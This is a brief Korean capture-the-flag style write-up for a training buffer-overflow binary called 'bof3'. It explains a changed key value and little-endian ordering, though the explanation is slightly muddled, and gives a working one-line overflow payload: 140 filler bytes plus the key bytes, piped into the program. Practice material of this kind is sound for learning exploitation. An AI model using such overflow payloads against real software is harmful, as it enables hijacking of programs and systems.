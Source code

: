 # bof 3

기존의 문제와 별반 차이 없어 보이지만 잘 보면 key 값이 다르다.

![차이점](./img/bof3.PNG)

기존의 키값은 0x61616161 이었으나 이번에는 0x00000061인 셈이다. 주의해야 할 것은 little-endian 방식이다. 따라서 0x61000000 식으로 입력해줘야 원하는 결과를 얻을 수 있을 것이다. 

터미널에 입력해야 하는 명령은 다음과 같다.

``` bash
$ (python -c 'print "a"*140+"\x61\x00\x00\x00"'; cat) | ./bof3 
```

